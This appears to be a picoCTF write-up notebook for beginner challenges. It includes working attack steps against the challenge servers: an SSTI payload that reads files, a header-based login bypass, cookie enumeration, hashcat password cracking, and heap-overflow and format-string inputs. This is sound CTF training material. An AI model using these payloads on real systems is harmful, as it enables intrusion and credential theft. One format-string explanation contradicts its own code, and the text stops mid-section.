




# PicoCTF Notebook Writeups

## Metadata

- Platform: picoGym
- Category: Mixed
- Difficulty: Beginner to Easy
- Status: In progress
- Main Writeup: [main.ipynb](main.ipynb)
- Files: PDFs, disk image, packet capture, images, logs, notebook, and extracted home directory
- Skills Learned: Web inspection, basic crypto, reverse engineering, pwn, forensics triage

# PicoCTF

## Note

### encoding hint

- Characters are only A–Z a–z and spaces/punctuation, and text looks like garbled English → try ROT13 / Caesar (letter-substitution).
- Contains only hex digits 0-9a-f (maybe even length) → hex (ASCII hex).
- Contains A–Z a–z 0–9 + / and maybe ending = → Base64.
- Has lots of % signs and hex pairs like %20 → URL encoding.
- Starts with & and ends with ; like &lt; → HTML entities.
- Looks long and random binary when saved → could be compressed/encoded (gzip, uuencode) — use file or strings.
- Contains only digits and commas or looks numeric → maybe simple substitution or numeric codes.

using <https://gchq.github.io/CyberChef>

## Web Exploitation

### Easy

#### Crack the Gate 1

AUTHOR: YAHAYA MEDDY

Description

We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: <ctf-player@picoctf.org>. Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?
The website is running here. Can you try to log in?

**hint:**

- Developers sometimes leave notes in the code; but not always in plain text.
- A common trick is to rotate each letter by 13 positions in the alphabet.

**Solution:**

there is a comment in the source: ```<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->```

the comment is encode by ROT13 then decode it, ```NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"```

```sh
curl -s -X POST "<http://amiable-citadel.picoctf.net:49652/login>" \
  -H "Content-Type: application/json" \
  -H "X-Dev-Access: yes" \
  -d '{"email":"<ctf-player@picoctf.org>","password":"anything"}' | jq -r .flag
```

**flag:** `picoCTF{brut4_f0rc4_1a386e6f}`

#### SSTI1

AUTHOR: VENAX

Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

**hint:**

- Server Side Template Injection

**Solution:**

- confirm that the server is Jinja2 by using ```{{7*7}}```
- using ```{{ url_for.**globals**['**builtins**']['open']('flag').read() }}``` (Use common Flask globals (often present)) and submi

**flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}`

#### Cookie Monster Secret Recipe

AUTHOR: BRHANE GIDAY AND PRINCE NIYONSHUTI N.

Description

Cookie Monster has hidden his top-secret cookie recipe somewhere on his website. As an aspiring cookie detective, your mission is to uncover this delectable secret. Can you outsmart Cookie Monster and find the hidden recipe?

Additional details will be available after launching your challenge instance.

**hint:**

- Sometimes, the most important information is hidden in plain sight. Have you checked all parts of the webpage?
- Cookies aren't just for eating - they're also used in web technologies!
- Web browsers often have tools that can help you inspect various aspects of a webpage, including things you can't see directly.

**Solution:**


**flag:** `picoCTF{c00k1e_m0nster_l0ves_c00kies_2C8040EF}`

#### WebDecode

AUTHOR: NANA AMA ATOMBO-SACKEY

Description

Do you know how to use the web inspector?

Additional details will be available after launching your challenge instance.

**hint:**

- Use the web inspector on other files included by the web page.
- The flag may or may not be encoded

**Solution:**



it was encoded by base64.

**flag:** `picoCTF{web_succ3ssfully_d3c0ded_283e62fe}`

#### Unminify

AUTHOR: JEFFERY JOHN

Description

I don't like scrolling down to read the code of my website, so I've squished it. As a bonus, my pages load faster!

Additional details will be available after launching your challenge instance.

**hint:**

- Try CTRL+U / ⌘+U in your browser to view the page source. You can also add 'view-source:' before the URL, or try `curl <URL>`in your shell.
- Minification reduces the size of code, but does not change its functionality.
- What tools do developers use when working on a website? Many text editors and browsers include formatting.

**Solution:**



**flag:** `picoCTF{pr3tty_c0d3_622b2c88}`

#### IntroToBurp

AUTHOR: NANA AMA ATOMBO-SACKEY & SABINE GISAGARA

Description

Additional details will be available after launching your challenge instance.

**hint:**

- Try using burpsuite to intercept request to capture the flag.
- Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

**Solution:**

- open burp
- use the proxy tab, open a browser, and go to the host
- go through the steps until get the opt
- open the proxy
- change protocol from `GET` to `POST` and remove `opt='????'`
- click forward

**flag:** `picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}`

#### Bookmarklet

AUTHOR: JEFFERY JOHN

Description

Why search for the flag when I can make a bookmarklet to print it for me?

Additional details will be available after launching your challenge instance.

**hint:**

- A bookmarklet is a bookmark that runs JavaScript instead of loading a webpage.
- What happens when you click a bookmarklet?
- Web browsers have other ways to run JavaScript too.

**Solution:**

- Place following these on Devtool console

```js
        javascript:(function() {
            var encryptedFlag = "àÒÆަȬë٣֖ÓÚåÛÑ¢ÕÓ˨˕ӗ§Èí";
            var key = "picoctf";
            var decryptedFlag = "";
            for (var i = 0; i < encryptedFlag.length; i++) {
                decryptedFlag += String.fromCharCode((encryptedFlag.charCodeAt(i) - key.charCodeAt(i % key.length) + 256) % 256);
            }
            alert(decryptedFlag);
        })();
```

**flag:** `picoCTF{p@g3_turn3r_e8b2d43b}`

#### Local Authority

AUTHOR: LT 'SYREAL' JONES

Description

Can you get the flag?

Additional details will be available after launching your challenge instance.

**hint:**

- How is the password checked on this website?

**Solution:**

- look in the sources, `secure.js`

```js
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

**flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

#### Inspect HTML

AUTHOR: LT 'SYREAL' JONES

Description

Can you get the flag?

Additional details will be available after launching your challenge instance.

**hint:**

- What is the web inspector in web browsers?

**Solution:**

- just open web inspector, the flag is the comment.

**flag:** `picoCTF{1n5p3t0r_0f_h7ml_8113f7e2}`

#### Includes

AUTHOR: LT 'SYREAL' JONES

Description

Can you get the flag?

Additional details will be available after launching your challenge instance.

**hint:**

- Is there more code than what the inspector initially shows?

**Solution:**

- in `style.css`

```css
/*  picoCTF{1nclu51v17y_1of2_  */
```

- in `script.js`

```js
//  f7w_2of2_df589022}
```

**flag:** `picoCTF{1nclu51v17y_1of2_f7w_2of2_df589022}`

#### Cookies

AUTHOR: MADSTACKS

Description

Who doesn't love cookies? Try to figure out the best one. <http://mercury.picoctf.net:64944/>

**Solution:**

1. observe cookie in the web
2. it started with name=-1
3. send the search by using the keyword in placeholder, snickerdoodle
4. it change name to 0 and the text in document is `I love snickerdoodle cookies!`
5. try to different numbers like 1-20

```python
import requests
import re

url = "http://mercury.picoctf.net:64944/check"
session = requests.Session()

for i in range(0, 101):               # try 0..100 to be safe
    headers = {"Cookie": f"name={i};"}
    r = session.get(url, headers=headers, timeout=5)
    text = r.text

    # search for picoCTF flag
    m = re.search(r"(picoCTF\{[^\}]+\})", text)
    if m:
        print(f"Found flag with name={i}: {m.group(1)}")
        break

    # otherwise print the bold sentence (if present) to see progress
    m2 = re.search(r"<b>(.*?)</b>", text, re.S|re.I)
    msg = m2.group(1).strip() if m2 else "(no <b> found)"
    print(f"name={i} -> {msg}")
else:
    print("Tried 0..100 and didn't find a flag.")
```

#### Scavenger Hunt

AUTHOR: MADSTACKS

**Description**

There is some interesting information hidden around this site http://mercury.picoctf.net:55079/. Can you find it?

**hint:**

- You should have enough hints to find the files, don't run a brute forcer.

**Solution:**

- `index.html`
```html
<!-- Here's the first part of the flag: picoCTF{t -->
```
- `mycss.css`
```css
/* CSS makes the page look nice, and yes, it also has part of the flag. Here's part 2: h4ts_4_l0 */
```
- `myjs.js`
```js
/* How can I keep Google from indexing my website? */
```
- `robots.txt`
```txt
# Part 3: t_0f_pl4c
# I think this is an apache server... can you Access the next flag?
```
- `.htaccess`
```txt
# Part 4: 3s_2_lO0k
```
- `.DS_Store` (MacOs)
```txt
Congrats! You completed the scavenger hunt. Part 5: _74cceb07}
```

**flag:** `picoCTF{th4ts_4_l0t_0f_pl4c3s_2_lO0k_74cceb07}`

#### GET aHEAD

AUTHOR: MADSTACKS

**Description**

Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:21939/

**hint:**

- Maybe you have more than 2 choices
- Check out tools like Burpsuite to modify your requests and look at the responses

**solution:**

```python
!curl -v -X HEAD http://mercury.picoctf.net:21939/
```

**flag:** `picoCTF{r3j3ct_th3_du4l1ty_6ef27873}`

#### dont-use-client-side

AUTHOR: ALEX FULTON/DANNY

**Description**

Can you break into this super secure portal? https://jupiter.challenges.picoctf.org/problem/17682/ (link) or http://jupiter.challenges.picoctf.org:17682

**hint:**

- Never trust the client

**solution:**

```html

<html>
<head>
<title>Secure Login Portal</title>
</head>
<body bgcolor=blue>
<!-- standard MD5 implementation -->
<script type="text/javascript" src="md5.js"></script>

<script type="text/javascript">
  function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(0, split) == 'pico') {
      if (checkpass.substring(split*6, split*7) == '706c') {
        if (checkpass.substring(split, split*2) == 'CTF{') {
         if (checkpass.substring(split*4, split*5) == 'ts_p') {
          if (checkpass.substring(split*3, split*4) == 'lien') {
            if (checkpass.substring(split*5, split*6) == 'lz_b') {
              if (checkpass.substring(split*2, split*3) == 'no_c') {
                if (checkpass.substring(split*7, split*8) == '5}') {
                  alert("Password Verified")
                  }
                }
              }
      
            }
          }
        }
      }
    }
    else {
      alert("Incorrect password");
    }
    
  }
</script>
<div style="position:relative; padding:5px;top:50px; left:38%; width:350px; height:140px; background-color:yellow">
<div style="text-align:center">
<p>This is the secure login portal</p>
<p>Enter valid credentials to proceed</p>
<form action="index.html" method="post">
<input type="password" id="pass" size="8" />
<br/>
<input type="submit" value="verify" onclick="verify(); return false;" />
</form>
</div>
</div>
</body>
</html>
```

**flag:** `picoCTF{no_clients_plz_b706c5}`

#### logon

AUTHOR: BOBSON

**Description**

The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? https://jupiter.challenges.picoctf.org/problem/13594/ (link) or http://jupiter.challenges.picoctf.org:13594

**hint:**

- Hmm it doesn't seem to check anyone's password, except for Joe's?

**Solution:**

- using burp
- using `joe` as username and `pwd` as password
- forward until got the `/problem/13594/flag`
- change `admin` in `Cookie` to be `True`

**flag:** `picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}`

#### Insp3ct0r

UTHOR: ZARATEC/DANNY

**Description**

Kishor Balan tipped us off that the following code may need inspection: https://jupiter.challenges.picoctf.org/problem/44924/ (link) or http://jupiter.challenges.picoctf.org:44924

**hint:**

- How do you inspect web code on a browser?
- There's 3 parts

**Solution:**

- inspect the website and got
- `html`
```html
<!-- Html is neat. Anyways have 1/3 of the flag: picoCTF{tru3_d3 -->
```
- `css`
```css
/* You need CSS to make pretty pages. Here's part 2/3 of the flag: t3ct1ve_0r_ju5t */
```
- `js`
```js
/* Javascript sure is neat. Anyways part 3/3 of the flag: _lucky?f10be399} */
```

**flag:** `picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?f10be399}`

#### where are the robots

AUTHOR: ZARATEC/DANNY

**Description**

Can you find the robots? https://jupiter.challenges.picoctf.org/problem/56830/ (link) or http://jupiter.challenges.picoctf.org:56830

**hint**

- What part of the website could tell you where the creator doesn't want you to look?

**Solution:**

- https://jupiter.challenges.picoctf.org/problem/56830/robots.txt
```txt
User-agent: *
Disallow: /1bb4c.html
```
- go to https://jupiter.challenges.picoctf.org/problem/56830/1bb4c.html

**flag:** `picoCTF{ca1cu1at1ng_Mach1n3s_1bb4c}`

## Cryptography

### Easy

#### hashcrack

AUTHOR: NANA AMA ATOMBO-SACKEY

**Description**

A company stored a secret message on a server which got breached due to the admin using weakly hashed passwords. Can you gain access to the secret stored within the server?

Additional details will be available after launching your challenge instance.

**hint:**

- Understanding hashes is very crucial. Read more here.
- Can you identify the hash algorithm? Look carefully at the length and structure of each hash identified.
- Tried using any hash cracking tools?

**Solution:**

- `nc verbal-sleep.picoctf.net 54648`
```
Welcome!! Looking For the Secret?

We have identified a hash: 482c811da5d5b4bc6d497ffa98491e38
Enter the password for identified hash: 
```

the hash is MD5

##### Why MD5?

The string 482c811da5d5b4bc6d497ffa98491e38 is 32 hex characters (0–9, a–f).

Common hash lengths (hex):
  - 32 → MD5
  - 40 → SHA-1
  - 64 → SHA-256

So the length + hex characters is a quick clue that this is MD5.

- using rockyou wordlist & hashcat to find pwd
  
```sh
# create a file with the hash
echo "482c811da5d5b4bc6d497ffa98491e38" > hash.txt

# hashcat: -m 0 (MD5), -a 0 (wordlist)
hashcat -m 0 -a 0 hash.txt rockyou.txt --status

hashcat -m 0 -a 0 hash.txt rockyou.txt --show

# output will show: 482c811da5d5b4bc6d497ffa98491e38:password123

rm hash.txt

echo "b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3" > hash.txt

hashcat -m 100 -a 0 hash.txt rockyou.txt --status

hashcat -m 100 -a 0 hash.txt rockyou.txt --show

# output will show: b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3:letmein

rm hash.txt

echo "916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745" > hash.txt

hashcat -m 1400 -a 0 hash.txt rockyou.txt --status

hashcat -m 1400 -a 0 hash.txt rockyou.txt --show

# output will show: 916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745:qwerty098
```

##### hashcat mode

| `-m`        | Hash type                            |
| ----------- | ------------------------------------ |
| 0           | MD5                                  |
| 100         | SHA-1 (raw)                          |
| 1400        | SHA-256 (raw)                        |
| 1700        | SHA-512 (raw)                        |
| 1000        | NTLM (Windows)                       |
| 500         | md5crypt / Apache MD5 ($1$)          |
| 3200        | bcrypt (Blowfish)                    |
| 10800       | SHA-384 (raw)                        |
| 5100        | Half MD5                             |
| 600         | BLAKE2b-512                          |
| 10100       | SipHash                              |
| 6000        | RIPEMD-160                           |
| 6100        | Whirlpool                            |
| 6900        | GOST R 34.11-94                      |
| 11700/11800 | GOST R 34.11-2012 (Streebog) 256/512 |

**flag:** `picoCTF{UseStr0nG_h@shEs_&PaSswDs!_5b836723}`

#### EVEN RSA CAN BE BROKEN???

AUTHOR: MICHAEL CROTTY

**Description**

This service provides you an encrypted flag. Can you decrypt it with just N & e?

Additional details will be available after launching your challenge instance.

**hint:**

- How much do we trust randomness?
- Notice anything interesting about N?
- Try comparing N across multiple requests

**Solution:**

- from the challenge, it is the RSA puzzles:
1. $p=2, q=N/2 (q is prime)$
2. $\phi(N) = (p-1)(q-1) = q-1$
3. Compute $d=e^{-1} mod (q-1)$
4. $m \equiv c^d (mod\ N)$
- `nc verbal-sleep.picoctf.net 55636`

```python
N = 16767728850340338055516742107039905626060029607643946421928753841997496565654605308878674231782330679513505747392421988793365026225539268566309554305362274
e = 65537
c = 16616034929195536042776635001978490106963614326105975878741183703838833047901638426318098014716092343443914881280345686804200294662154947625121861359081795

# Factor (trick: N is even)
p = 2
q = N // p

phi = (p - 1) * (q - 1)   # q-1
d = pow(e, -1, phi)
m = pow(c, d, N)

msg_bytes = m.to_bytes((m.bit_length() + 7) // 8, 'big')
print(msg_bytes.decode('utf-8'))   # -> picoCTF{tw0_1$_pr!m3de643ad5}
```

**flag:** `picoCTF{tw0_1$_pr!m3de643ad5}`

#### interencdec

AUTHOR: NGIRIMANA SCHADRACK

**hint:**

- Engaging in various decoding processes is of utmost importance

```python
import base64, re

hashlflag = open("enc_flag_interencdec").read().strip()
decode1 = base64.b64decode(hashlflag).decode()
inner = re.search(r"b'(.*?)'", decode1).group(1)

def caesar_decrypt(encrypted_message, key):
    decrypted_message = ""
    for char in encrypted_message:
        if 'a' <= char <= 'z':
            # Handle lowercase letters
            new_position = (ord(char) - ord('a') - key) % 26
            decrypted_message += chr(ord('a') + new_position)
        elif 'A' <= char <= 'Z':
            # Handle uppercase letters
            new_position = (ord(char) - ord('A') - key) % 26
            decrypted_message += chr(ord('A') + new_position)
        else:
            # Keep non-alphabetic characters unchanged
            decrypted_message += char
    return decrypted_message

# Example usage:
encrypted_text = base64.b64decode(inner).decode()

for decryption_key in range(1, 26):
    decrypted_text = caesar_decrypt(encrypted_text, decryption_key)
    if "picoCTF" in decrypted_text:
        print(f"Encrypted: {encrypted_text}")
        print(f"Decrypted: {decrypted_text}")
```

**flag:** `picoCTF{caesar_d3cr9pt3d_86de32d2}`

#### Mod 26

AUTHOR: PANDU

**Description**

Cryptography can be easy, do you know what ROT13 is? `cvpbPGS{arkg_gvzr_V'yy_gel_2_ebhaqf_bs_ebg13_uJdSftmh}`

**hint:**

- This can be solved online if you don't want to do it by hand!

```python
encrypted_text = "cvpbPGS{arkg_gvzr_V'yy_gel_2_ebhaqf_bs_ebg13_uJdSftmh}"

for decryption_key in range(1, 26):
    decrypted_text = caesar_decrypt(encrypted_text, decryption_key)
    if "picoCTF" in decrypted_text:
        print(f"Encrypted: {encrypted_text}")
        print(f"Decrypted: {decrypted_text}")
```

**flag:** `picoCTF{next_time_I'll_try_2_rounds_of_rot13_hWqFsgzu}`

#### The Numbers

AUTHOR: DANNY

**Description**



**hint:**

- The flag is in the format PICOCTF{}

```python
import string

num2alpha = dict(zip(range(1, 27), string.ascii_lowercase))

numbers = "16 9 3 15 3 20 6 { 20 8 5 14 21 13 2 5 18 19 13 1 19 15 14 }".split(" ")
for num in numbers:
    try:
        num_int = int(num)
        print(num2alpha[num_int], end="")
    except:
        print(num, end="")  # print non-number as is
        continue
```

**flag:** `picoCTF{thenumbersmason}`

#### 13

AUTHOR: ALEX FULTON/DANIEL TUNITIS

**Description**

Cryptography can be easy, do you know what ROT13 is? `cvpbPGS{abg_gbb_onq_bs_n_ceboyrz}`

**hint:**

- This can be solved online if you don't want to do it by hand!

```python
caesar_decrypt("cvpbPGS{abg_gbb_onq_bs_n_ceboyrz}", 13)
```

**flag:** `picoCTF{not_too_bad_of_a_problem}`

## Reverse Engineering

### Easy

#### Flag Hunters

AUTHOR: SYREAL

**Description**

Lyrics jump from verses to the refrain kind of like a subroutine call. There's a hidden refrain this program doesn't print by default. Can you get it to print it? There might be something in it for you.

The program's source code can be downloaded here.

Additional details will be available after launching your challenge instance.

**Hints**

- This program can easily get into undefined states. Don't be shy about Ctrl-C.
- Unsanitized user input is always good, right?
- Is there any syntax that is ripe for subversion?
  
**Solution**

- look at the [source code](../lyric-reader/lyric-reader.py)
- nc verbal-sleep.picoctf.net 61805
- ;RETURN 0

**flag:** `picoCTF{70637h3r_f0r3v3r_c373964d}`

#### Transformation

AUTHOR: MADSTACKS

**Description**

I wonder what this really is... enc ''.join([chr((ord(flag[i]) << 8) + ord(flag[i + 1])) for i in range(0, len(flag), 2)])

**Hints**

- You may find some decoders online

```python
s = "灩捯䍔䙻ㄶ形楴獟楮獴㌴摟潦弸弲㘶㠴挲ぽ"

out = []
for ch in s:
    code = ord(ch)
    hi = (code >> 8) & 0xFF
    lo = code & 0xFF
    out.append(chr(hi))
    out.append(chr(lo))

print(''.join(out))
```

**flag:** `picoCTF{16_bits_inst34d_of_8_26684c20}`

#### vault-door-training

AUTHOR: MARK E. HAASE

**Description**

Your mission is to enter Dr. Evil's laboratory and retrieve the blueprints for his Doomsday Project. The laboratory is protected by a series of locked vault doors. Each door is controlled by a computer and requires a password to open. Unfortunately, our undercover agents have not been able to obtain the secret passwords for the vault doors, but one of our junior agents obtained the source code for each vault's computer! You will need to read the source code for each level to figure out what the password is for that vault door. As a warmup, we have created a replica vault in our training facility. The source code for the training vault is here: VaultDoorTraining.java

**Hints:**

- The password is revealed in the program's source code.

**Solution**

- look the [source code](../vault-door-training/VaultDoorTraining.java)

**flag:** `picoCTF{w4rm1ng_Up_w1tH_jAv4_be8d9806f18}`

## Binary Exploitation

### Easy

#### PIE TIME

AUTHOR: DARKRAICG492

**Description**

Can you try to get the flag? Beware we have PIE!

Additional details will be available after launching your challenge instance.

[file](../binary-exploitation/vuln)

**Hints**

- Can you figure out what changed between the address you found locally and in the server output?

```python
!file vuln
```

```python
from pwn import *

elf = ELF("../binary-exploitation/vuln")
print(hex(elf.symbols['main']))
print(hex(elf.symbols['win']))
```

```python
hex(0x133d - 0x12a7)
```

```python
main = 0x653e7309d33d
win  = main - 0x96
hex(win)
```

**Solution**

- `nc rescued-float.picoctf.net 54379`
- enter 0x653e7309d2a7

**flag:** `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_0392ebba}`

#### heap 0

AUTHOR: ABRXS, PR1OR1TYQ

Description

Are overflows just a stack concern?

[the binary here.](../binary-exploitation/chall)

[the source here.](../binary-exploitation/chall.c)

**Solution:**

- in the source code

```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");
        ... print flag ...
        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
    }
}
```

So the plan:

1. Use option 2 “Write to buffer” to overflow input_data with a long string.
2. That overwrites safe_var on the heap.
3. Use option 4 “Print Flag” → check_win() sees safe_var != "bico" → prints flag.

- nc tethys.picoctf.net 63309
- enter: 2
- enter: (Now type a long string with no spaces, e.g.: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)
- enter: 4

**flag**: `picoCTF{my_first_heap_overflow_76775c7c}`

#### format string 0

AUTHOR: CHENG ZHANG

Description

Can you use your knowledge of format strings to make the customers happy?

[the binary here.](../format-string-0/format-string-0)

[the source here.](../format-string-0/format-string-0.c)

**Solution**

1. Key observations from the code

Global flag buffer and SIGSEGV handler:

```c
#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

`serve_patrick()` – Stage 1

```c
char choice1[BUFSIZE];
scanf("%s", choice1);
char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
...
} else {
    int count = printf(choice1);
    if (count > 2 * BUFSIZE) {
        serve_bob();
    } else {
        printf("Patrick is still hungry!\n");
        ...
    }
}
```

Your input must be one of:

- `Breakf@st_Burger` → just a normal string, prints ~16 chars.
- `Gr%114d_Cheese` → small.
- **`Bac0n_D3luxe` → format string with %114d.**

---

- nc mimas.picoctf.net 62656
- enter: Gr%114d_Cheese
- enter: Cla%sic_Che%s%steak

**flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}`

## Forensics

### Easy

#### Riddle Registry

AUTHOR: PRINCE NIYONSHUTI N.

**Description**

Hi, intrepid investigator! 📄🔍 You've stumbled upon a peculiar PDF filled with what seems like nothing more than garbled nonsense. But beware! Not everything is as it appears. Amidst the chaos lies a hidden treasure—an elusive flag waiting to be uncovered.

Find the PDF file here Hidden Confidential Document and uncover the flag within the metadata. [confidential.pdf](confidential.pdf)

**Hints**

- Don't be fooled by the visible text; it’s just a decoy!
- Look beyond the surface for hidden clues

**Solution**

- look at the author in the metadata
- it was encoded by base64

**Flag:** `picoCTF{puzzl3d_m3tadata_f0und!_3578739a}`

#### Hidden in plainsight

AUTHOR: YAHAYA MEDDY

**Description**

You’re given a seemingly ordinary JPG image. Something is tucked away out of sight inside the file. Your task is to discover the hidden payload and extract the flag.

**Hints**

- Download the jpg image and read its metadata


```python
!exiftool img.jpg
```

```python
import base64

base64.b64decode(base64.b64decode("c3RlZ2hpZGU6Y0VGNmVuZHZjbVE9").decode().split(":",1)[1]).decode('latin1')
```

```python
!steghide extract -sf img.jpg -p "pAzzword"
```

```python
open("flag.txt").read()
```

#### Flag in Flame

AUTHOR: PRINCE NIYONSHUTI N.

**Description**

The SOC team discovered a suspiciously large log file after a recent breach. When they opened it, they found an enormous block of encoded text instead of typical logs. Could there be something hidden within? Your mission is to inspect the resulting file and reveal the real purpose of it. The team is relying on your skills to uncover any concealed information within this unusual log.

Download the encoded data here: [Logs Data](logs.txt). Be prepared—the file is large, and examining it thoroughly is crucial .

**Hints**

- Use base64 to decode the data and generate the image file.

```python
import base64

# Read the whole base64 blob
with open("logs.txt", "rb") as f:
    b64_data = f.read()

# Remove whitespace just in case and decode
b64_clean = b"".join(b64_data.split())
img_bytes = base64.b64decode(b64_clean)

# Write to an image file (PNG)
with open("flag_in_flame.png", "wb") as f:
    f.write(img_bytes)
```


```python
import binascii

binascii.unhexlify("7069636F4354467B666F72656E736963735F616E616C797369735F69735F616D617A696E675F32346431363839357D").decode("utf-8")
```

#### Corrupted file

AUTHOR: YAHAYA MEDDY

**Description**

This file seems broken... or is it? Maybe a couple of bytes could make all the difference. Can you figure out how to bring it back to life?

[file](file)

**Hints**

- Try checking the file’s header.
- JPEG
- Tools like xxd or hexdump can help you inspect and edit file bytes.

```python
!xxd file | head
!cp file fixed.jpg
```

```python
